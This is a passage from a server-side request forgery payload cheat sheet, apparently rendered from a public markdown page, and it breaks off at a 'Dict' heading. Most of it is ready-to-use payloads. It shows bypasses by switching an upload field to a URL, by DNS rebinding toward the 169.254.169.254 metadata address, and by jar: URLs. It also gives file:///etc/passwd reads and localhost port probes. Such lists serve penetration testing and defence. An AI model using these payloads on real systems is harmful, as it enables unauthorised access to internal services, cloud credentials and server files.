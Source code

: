 ### Bypassing using type=url

```powershell
Change "type=file" to "type=url"
Paste URL in text field and hit enter
Using this vulnerability users can upload images from any image URL = trigger an SSRF
```

### Bypassing using DNS Rebinding (TOCTOU)

```powershell
Create a domain that change between two IPs. http://1u.ms/ exists for this purpose.
For example to rotate between 1.2.3.4 and 169.254-169.254, use the following domain:
make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
```

### Bypassing using jar protocol (java only)

Blind SSRF

```powershell
jar:scheme://domain/path!/ 
jar:http://127.0.0.1!/
jar:https://127.0.0.1!/
jar:ftp://127.0.0.1!/
```

## SSRF exploitation via URL Scheme

### File 

Allows an attacker to fetch the content of a file on the server

```powershell
file://path/to/file
file:///etc/passwd
file://\/\/etc/passwd
ssrf.php?url=file:///etc/passwd
```

### HTTP

Allows an attacker to fetch any content from the web, it can also be used to scan ports.

```powershell
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
```

![SSRF stream](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/SSRF_stream.png?raw=true)

The following URL scheme can be used to probe the network

### Dict
